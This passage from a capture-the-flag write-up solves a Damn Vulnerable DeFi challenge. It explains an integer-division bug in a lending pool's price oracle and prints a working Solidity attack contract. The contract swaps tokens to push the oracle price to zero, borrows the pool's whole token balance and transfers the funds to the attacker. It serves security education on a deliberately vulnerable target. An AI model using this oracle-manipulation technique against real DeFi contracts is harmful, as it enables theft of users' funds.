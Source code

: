 However, there is no flash loan in this challenge, instead, another bug in the `computeOraclePrice` function makes this easily exploitable - it uses integer division to compute the price as:

```solidity
function computeOraclePrice() public view returns (uint256) {
    // this is wrong and will be 0 due to integer division as soon as the pool's token balance > ETH balance
    return uniswapOracle.balance.div(token.balanceOf(uniswapOracle));
}
```

A correct implementation should multiply by the `borrowAmount` first before dividing by the token balance to circumvent this issue.

Then the exploit steps are:

1. Trade a tiny amount of DVT to ETH (such that token balance > ETH balance in the Uniswap pool). This results in `computeOraclePrice` returning `0`.
2. borrow all pool tokens at zero price

```solidity
function attack(uint256 amount) public {
    // trade tokens to ETH to increase tokens balance in uniswap
    require(token.balanceOf(address(this)) >= amount, "not enough tokens");
    token.approve(address(uniswap), amount);
    uint256 ethGained =
        uniswap.tokenToEthSwapInput(amount, 1, block.timestamp + 1);

    // computeOraclePrice has integer division issue which will make price 0
    // as soon as token balance is greater than ETH balance
    require(pool.computeOraclePrice() == 0, "oracle price not 0");

    // now borrow everything from the pool at a price of 0
    pool.borrow(token.balanceOf(address(pool)));

    // success condition is that attacker's ETH balance did not decrease
    // but it reduced due to gas cost, just send back the eth we gained from the swap
    // transfer all tokens & eth to attacker EOA
    require(
        token.transfer(msg.sender, token.balanceOf(address(this))),
        "token transfer failed"
    );
    msg.sender.transfer(ethGained);
}

// required to receive ETH from uniswap
receive() external payable {}
```


> ❕ The full code for all solutions can be [found on GitHub](https://github.com/MrToph/damn-vulnerable-defi).

For more Ethereum CTFs, check out my other solutions:

- Damn Vulnerable DeFi
- [Ethernaut](/ethernaut-solutions)
- [Capture The Ether](/capture-the-ether-solutions/)